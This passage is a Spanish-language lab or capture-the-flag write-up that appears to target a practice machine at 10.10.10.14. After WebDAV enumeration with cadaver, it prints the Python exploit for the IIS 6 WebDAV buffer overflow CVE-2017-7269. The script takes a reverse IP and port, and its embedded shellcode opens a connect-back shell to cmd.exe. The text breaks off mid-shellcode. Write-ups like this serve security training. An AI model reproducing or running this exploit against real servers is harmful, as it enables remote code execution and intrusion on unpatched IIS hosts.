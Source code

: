 Da todo fallo debido a que el método `PUT` no esta permitido en el server por lo que esto tampoco no sirve.

- Uso de la herramienta `cadaver`

```bash
cadaver 10.10.10.14
dav:/> ls
Listing collection `/': collection is empty.
dav:/>
```

A groso modo en este caso tampoco nos servirá de nada el uso de la herramienta `cadaver`, pero básicamente esta sirve para conectarnos al servicio `webdav` y poder listar el contenido, subir/descargar ficheros internos, etc...

-------------------------

# EXPLOTACION DEL SERVICIO

- Como hemos mencionado anteriormente el servicio esta desactualizado, por lo que haciendo una búsqueda exhaustiva hemos encontrado `exploits` sobre `buffer-overflow` en dicha versión del servicio, hemos encontrado el CVE de dicha vulnerabilidad que es `[2017-7269]` y el exploit que he utilizado es el siguiente

```python
import sys
import struct
import socket  

if len(sys.argv)<5:
    print 'usage:iis6webdav.py targetip targetport reverseip reverseport\n'
    exit(1)
targetip = sys.argv[1]
targetport = int(sys.argv[2])
reverseip = sys.argv[3]
reverseport = int(sys.argv[4])

shellcode='\x55\x8B\xEC\x81\xEC\xDC\x05\x00\x00\x53\x56\x57\x8B\x45\x08\x8B'+\
'\x40\x78\x89\x85\xE4\xFA\xFF\xFF\x8B\x45\x08\x8B\x40\x70\x89\x45'+\
'\xFC\xC7\x85\xC8\xFC\xFF\xFF\x77\x73\x32\x5F\xC7\x85\xCC\xFC\xFF'+\
'\xFF\x33\x32\x2E\x64\xC7\x85\xD0\xFC\xFF\xFF\x6C\x6C\x00\x00\xC7'+\
'\x85\xD8\xFA\xFF\xFF\x57\x53\x41\x53\xC7\x85\xDC\xFA\xFF\xFF\x74'+\
'\x61\x72\x74\xC7\x85\xE0\xFA\xFF\xFF\x75\x70\x00\x00\xC7\x85\x58'+\
'\xFA\xFF\xFF\x57\x53\x41\x53\xC7\x85\x5C\xFA\xFF\xFF\x6F\x63\x6B'+\
'\x65\xC7\x85\x60\xFA\xFF\xFF\x74\x41\x00\x00\xC7\x85\xE8\xFC\xFF'+\
'\xFF\x57\x53\x41\x43\xC7\x85\xEC\xFC\xFF\xFF\x6F\x6E\x6E\x65\xC7'+\
'\x85\xF0\xFC\xFF\xFF\x63\x74\x00\x00\xC7\x85\xA8\xFA\xFF\xFF\x69'+\
'\x6E\x65\x74\xC7\x85\xAC\xFA\xFF\xFF\x5F\x61\x64\x64\xC7\x85\xB0'+\
'\xFA\xFF\xFF\x72\x00\x00\x00\xC7\x85\x14\xFD\xFF\xFF\x68\x74\x6F'+\
'\x6E\xC7\x85\x18\xFD\xFF\xFF\x73\x00\x00\x00\xC7\x85\xF4\xFC\xFF'+\
'\xFF\x43\x3A\x5C\x57\xC7\x85\xF8\xFC\xFF\xFF\x69\x6E\x64\x6F\xC7'+\
'\x85\xFC\xFC\xFF\xFF\x77\x73\x5C\x73\xC7\x85\x00\xFD\xFF\xFF\x79'+\
'\x73\x74\x65\xC7\x85\x04\xFD\xFF\xFF\x6D\x33\x32\x5C\xC7\x85\x08'+\
'\xFD\xFF\xFF\x63\x6D\x64\x2E\xC7\x85\x0C\xFD\xFF\xFF\x65\x78\x65'+\
'\x00\xC7\x85\x18\xFB\xFF\xFF\x43\x3A\x5C\x57\xC7\x85\x1C\xFB\xFF'+\
'\xFF\x69\x6E\x64\x6F\xC7\x85\x20\xFB\xFF\xFF\x77\x73\x5C\x73\xC7'+\
'\x85\x24\xFB\xFF\xFF\x79\x73\x74\x65\xC7\x85\x28\xFB\xFF\xFF\x6D'+\
'\x33\x32\x5C\xC7\x85\x2C\xFB\xFF\xFF\x63\x61\x6C\x63\xC7\x85\x30'+\
'\xFB\xFF\xFF\x2E\x65\x78\x65\x83\xA5\x34\xFB\xFF\xFF\x00\xC7\x85'+\
'\xE8\xFA\xFF\xFF\x43\x3A\x5C\x57\xC7\x85\xEC\xFA\xFF\xFF\x49\x4E'+\
'\x44\x4F\xC7\x85\xF0\xFA\xFF\xFF\x57\x53\x5C\x49\xC7\x85\xF4\xFA'+\
'\xFF\xFF\x49\x53\x20\x54\xC7\x85\xF8\xFA\xFF\xFF\x65\x6D\x70\x6F'+\
'\xC7\x85\xFC\xFA\xFF\xFF\x72\x61\x72\x79\xC7\x85\x00\xFB\xFF\xFF'+\
'\x20\x43\x6F\x6D\xC7\x85\x04\xFB\xFF\xFF\x70\x72\x65\x73\xC7\x85'+\
```